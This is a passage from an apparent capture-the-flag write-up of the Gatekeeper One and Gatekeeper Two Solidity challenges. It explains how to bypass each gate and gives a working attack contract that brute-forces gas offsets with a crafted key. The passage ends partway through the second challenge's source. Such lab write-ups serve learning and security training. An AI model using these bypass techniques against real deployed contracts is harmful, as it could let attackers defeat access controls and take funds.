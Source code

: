 ## 13 Gatekeeper One

```solidity
Code
```

To solve this challenge , we need to pass the all the checks in three gates.

gateOne:

-   We can pass this check by calling the contract from another contract not an EOA

gateTwo:

-   To pass this check , the gasLeft at the gateTwo should be divisible by 8191 .
-   We can control the gas of a function call using `call` so we can bruteforce the gas
-   We can also use remix debugger to check the gasleft at the specific Opcode.

gateThree:
There are 3 checks to pass this check .

-   The value of uint32 is equal to uint16 , it means the last 32 bytes should equal to last 16 bytes . 0x00001234 is equal to 0x1234
-   The value of uint32 is not equal to uint64 ,to do so we can change the 0 to something other than that 0x1111111100001234 is not equal to 0x0000000000001234.
-   The value of last 32 bits is equal to value of last 16 bits of the tx.origin. We can pass this check by sending the last 2 bytes of the address as the last 2 bytes.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract gatekeeper {
  function attack(address _add) public {
      bytes8 key = 0x100000000000D120;
      for (uint i = 0; i < 8191; i++) {
            (bool x, ) = _add.call{gas:25000+i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (x) {
                break;
            }
        }
  }
}
```

## 14 GateKeeper Two

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract GatekeeperTwo {
  address public entrant;
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }
  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }
  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
```